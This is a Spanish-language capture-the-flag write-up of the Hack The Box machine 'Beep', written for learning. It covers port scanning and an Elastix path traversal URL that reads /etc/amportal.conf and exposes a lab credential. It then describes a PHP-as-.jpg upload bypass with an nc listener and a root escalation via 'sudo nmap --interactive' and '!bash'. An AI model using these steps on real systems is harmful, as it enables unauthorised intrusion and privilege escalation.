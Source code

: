 ```yaml
---
title: Beep - HTB Writeup
date: 2023-09-07 14:13:00 +0800
categories: [Ciberseguridad, Writeups, HTB]
tags: [Writeup]
image:
  path: /assets/img/post/beep/2d974a53-bec1-4055-8f91-b1a8ddc58da6_alta-libre-aspect-ratio_default_0.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Beep** es un máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

La máquina **Beep** tiene un gran número de **servicios en ejecucción**, lo que puede ser tanto bueno como malo, ya puede ser dificil encontrar la manera correcta de ganar acceso a la máquina, pero lo bueno es que hay muchas maneras de realizar la intrusión y vulnerar la máquina

En este caso lo haremos de la manera que me parece más sencilla y fácil de entender, pero hay muchas maneras distintas de hacerlo. Vamos allá!

## **Reconocimiento**

Como de costumbre para comenzar con la fase de reconocimiento, empezaremos realizando un escaneo de puertos con la herramienta ```nmap``` , esta nos reportará los puertos abiertos en la dirección que le indiquemos:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oG allPorts
```

![img](/assets/img/post/beep/c36e782c-17fb-4f76-83f4-ceacf9ab3b12.png)

Como comentabamos al principio, nos encontramos con un gran número de **servicios y puertos abiertos**

Vamos a hacer un escaneo más exhaustivo de los **servicios y versiones** que se ejecutan en cada puerto *(vamos a hacer un escaneo de pocos puertos para que no se demore mucho)*

```bash
nmap -sCV -p22,25,80 10.10.10.7 -oN versions
```

![img](/assets/img/post/beep/1b19c82f-9dfb-4e29-ab8d-1e3533d44858.png)

Podemos ver que hay en ejecución un servicio ```HTTP``` por el puerto ```80```, veamos que encontramos:

![img](/assets/img/post/beep/ea12d889-e6a7-4a6d-8c5c-9e05e99c32f1.png)

Vemos que hay un panel de **inicio de sesión**, podemos buscar credenciales por defecto de este servicio, pero estas han sido cambiadas, así que vamos a buscar si podemos acceder de alguna otra manera

Usando **searchsploit** vamos a ver si hay alguna forma de explotar algún fallo de ```Elastix 2.2.0```:

```bash
searchsploit elastix
```

![img](/assets/img/post/beep/796b300a-81bd-4aa5-9e45-46939fff049e.png)

Vemos que existe una vulnerabilidad existente para la versión del servicio al que intentamos acceder

![img](/assets/img/post/beep/38acbf8a-ea6b-46ca-b2ec-a8cea437c502.png)

Si abrimos el archivo ```.txt```, podremos observar que el servicio es **vulnerable** a un ```Directory Path Traversal```, **con el que podremos apuntar a cualquier archivo del sistema**

> En este [enlace](https://portswigger.net/web-security/file-path-traversal) dejo más información sobre esta vulnerabilidad

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![img](/assets/img/post/beep/36210f96-940c-43f0-913f-bd7772993135.png)

Vemos que si apuntamos a ```/etc/amportal.conf``` accederemos a un archivo de configuración del servicio ```amportal```

> Amportal es una herramienta que se utiliza para administrar y configurar servidores de telefonía IP que funcionan con FreePBX

En el podremos encontrar unas credenciales ```admin:jEhdIekWmdjE``` , las cuales podremos utilizar para loguearnos en el servicio ```vtigercrm```

> Vtiger CRM es un sistema de gestión de relaciones con los clientes (CRM) de código abierto y basado en la web.

Una vez logueados veremos la siguiente interfaz, haremos click en ```Settings```

![img](/assets/img/post/beep/8ed6b75f-d51e-4fe7-a78e-a86e79502aa1.png)

## **Explotación**

Una vez en ```Settings```, accederemos a ```Company Details```, donde accederemos a un panel donde podremos **cambiar la foto de la empresa**, este será vulnerable al ```LFI``` que hablabamos anteriormente, por lo tanto vamos a crear un **archivo malicioso**

![img](/assets/img/post/beep/d838263a-7cfd-4562-b529-f7197dfaf6c8.png)

![img](/assets/img/post/beep/9514ec5d-2f53-467d-b142-e4010bd4503e.png)

> La opción de subida de archivos no está bien sanitizada, por lo que debemos colocarle al archivo php la extensión ```.jpg``` para que nos permita subirlo

A su vez nos pondremos en escucha por el puerto ```443``` mediante ```nc```:

```bash
nc -lvnp 443
```

![img](/assets/img/post/beep/24c56a99-1502-4006-be91-05f81d135fd6.png)

Y ya tendremos acceso a la **user flag**, si lo deseamos podemos hacer un ```tratamiento de la tty``` para un mejor control de la consola

## **Escalada de Privilegios**

Como siempre, lo primero que haremos será ```sudo -l``` , para ver si hay algún ```binario``` que podamos ejecutar como ```root```:

![img](/assets/img/post/beep/9505d4a3-3e5b-4c9c-853d-7b29e65572c6.png)

Como vemos, **hay muchas opciones con las cuales probar** , pero nosotros lo intentaremos con el binario de ```nmap```. Lo que haremos para conseguir una ```consola``` como ```root``` aprovechandonos de poder ejecutar el ```binario``` de nmap como un usuario privilegiado, es lo siguiente:

```bash
sudo nmap --interactive
```

```bash
!bash
```

> Al realizar el segundo paso veremos que no sucede nada visual, pero ya deberiamos tener acceso como root

![img](/assets/img/post/beep/2fa43191-ce70-4ebc-b99f-d85cbdc9be1d.png)

Como podemos ver ya tendremos acceso como **usuario privilegiado**

![img](/assets/img/post/beep/75b8622e-7194-4b12-80f3-05f3b620d7d8.png)

Y finalmente ya podremos ver la **root flag**

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
